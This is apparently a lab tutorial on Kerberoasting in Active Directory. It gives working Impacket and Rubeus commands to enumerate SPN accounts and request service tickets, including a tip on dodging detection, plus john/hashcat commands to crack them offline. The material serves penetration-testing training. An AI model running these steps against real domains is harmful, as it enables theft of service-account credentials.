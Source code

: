 # 7.4 - Kerberoasting

## Kerberoasting

Kerberoasting targets **service accounts with an assigned SPN**. When a user requests access to a service, they receive a **Service Ticket (ST)** encrypted with the service account’s long-term password.

If an attacker can obtain the **ST**, they can attempt to crack the encryption offline to retrieve the service account password.

#### Kerberos Ticket Exchange for Services

```
3) TGS-REQ (Client -> KDC/TGS)
   - TGT 🔑 Encrypted with KDC key
   - Authenticator Data 🔑 Encrypted with TGS Session Key

4) TGS-REP (KDC/TGS -> Client)
   - ST 🔑 Encrypted with Service key
   - Service Session Key 🔑 Encrypted with TGS Session Key
```

Unlike AS-REP Roasting, Kerberoasting requires valid domain user credentials to request a service ticket.

### Example: Exploiting Kerberoasting

**Step 1: Create a User with an SPN**

```powershell
New-ADUser -Name "kerberoasting" -SamAccountName "kerberoasting" -UserPrincipalName "kerberoasting@dev-angelist" -AccountPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force) -Enabled $true
```

**Step 2: Assign an SPN**

```powershell
Set-ADUser -Identity "kerberoasting" -ServicePrincipalNames @{Add="HTTP/kerberoasting.dev-angelist.lab"}
```

**Step 3: Verify the SPN**

```powershell
Get-ADUser -Identity "kerberoasting" -Properties ServicePrincipalNames
setspn -L kerberoasting
```

<figure><img src="../../.gitbook/assets/image (23) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4: Identify Kerberoastable Accounts**

```bash
#On attacker machine create a dedicated python environment (optional)
python3 -m venv venv
. venv/bin/activate
pip3 install impacket
#Check kerberoastable users using the Impacket's module: GetUserSPNs.py
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc
#Or using AD Module and PowerView (Windows)
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-DomainUser -SPN

```

<figure><img src="../../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

in this case there're two vulnerable users: 'kerberoasting' and 'angel'.

**Step 5: Request Service Tickets for Kerberoasting**

```powershell
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc -request #without specifing a user it checks all possible tickets
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc -request-user kerberoasting | grep '\$krb5tgs\$' > kerberoast.txt
```

or using Rubeus:

<pre class="language-powershell"><code class="lang-powershell"><strong>#View statistics on Kerberoastable accounts:
</strong>Rubeus.exe kerberoast /stats
#Request a TGS for a specific user:
Rubeus.exe kerberoast /user:svcadmin /simple
#To avoid detection (e.g., MDI logging downgrade attacks), target accounts restricted to RC4:
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
#Kerberoast all RC4-only accounts and output to file:
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
</code></pre>

<figure><img src="../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 6: Crack the Service Ticket**

```bash
john --wordlist=/home/kali/Documents/password.txt ./kerberoast.txt
hashcat -m 18200 ./kerberoast.txt /home/kali/Documents/password.txt
#john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
```

<figure><img src="../../.gitbook/assets/image (27) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Troubleshooting: Clock Skew Errors

If you encounter `KRB_AP_ERR_SKEW (Clock skew too great)`, synchronize the clocks with:

```bash
sudo timedatectl set-ntp off
ntpdate -q corp-dc
ntpdate -u corp-dc
```

***

## Other Resources

* [Kerberos Authentication Hexdump YT](https://www.youtube.com/watch?v=dQz3CMlVYNY\&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn)
* [Roasting attacks Hexdump YT](https://www.youtube.com/watch?v=fVTZEIZIEqg)

### Labs

* [Learning Object 15 lab](../lab/15-lo1-5.md)
